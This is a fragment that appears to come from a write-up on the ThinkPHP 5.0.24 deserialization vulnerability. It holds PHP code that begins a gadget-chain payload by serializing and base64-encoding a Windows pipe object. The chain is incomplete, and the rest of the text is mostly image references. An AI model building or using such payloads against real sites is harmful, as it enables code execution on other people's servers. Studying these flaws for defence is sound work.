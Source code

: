     namespace think\model;
    use think\Model;
    class Pivot extends Model{


    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

![](resource/Thinkphp5.0.24反序列化漏洞/media/rId29.jpg)
